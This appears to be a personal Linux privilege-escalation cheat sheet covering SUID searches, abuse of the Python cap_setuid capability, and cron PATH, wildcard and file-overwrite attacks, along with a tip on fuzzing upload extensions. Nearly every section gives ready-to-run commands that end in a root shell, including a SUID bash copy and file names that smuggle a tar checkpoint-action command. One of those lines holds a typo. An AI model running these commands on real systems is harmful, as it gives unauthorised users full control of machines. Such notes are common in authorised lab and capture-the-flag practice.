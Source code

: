 ## SUID
Notes:
  1. If we have an upload file directory, but it does not accept php files we can send to burp and fuzz the extension, to find an alternative, like php3,php4, phtml, etc 
  2. Go to gtfobins if u find a file with SUID access
```shell
find / -perm -u=s -type f 2>/dev/null
```

## Capability
```shell
getcap -r / 2>/dev/null
# /usr/bin/python2.6 = cap_setuid+ep
# think of +ep as permit everything
# So, /usr/bin/python2.6 = cap_setuid+ep indicates that when the Python 2.6 interpreter is executed, it has the cap_setuid capability, which allows it to change its user ID, which we can change to 0 (root)

/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# now you are root
```

## Escalation via Cron Paths
If the crontab is executing a file, go to your $PATH variable to see which path u have access. in case u have access in any dir, lets go make something malicious to trick the crontab, to run our file
This script need to be ajusted before using
![image](https://github.com/user-attachments/assets/370bdba3-1546-4a46-a78e-c68b50c85565)

```shell
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
/tmp/bash -p
# Now you are root
```

## Escalations via Cron Wildcards
![image](https://github.com/user-attachments/assets/b59e7655-edf8-4a63-9351-326506982b44)

```shell
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
chmod +s runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\runme.sh
# wait crontab to execute
/tmp/bash -p
```

## Cron file overwrite
If we have privileges to write a file thats running by root in crontab, we just echo something malicious and wait
```shell
cat /etc/crontab

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /file/overwrite.sh
# wait crontab
/tmp/bash -p

```

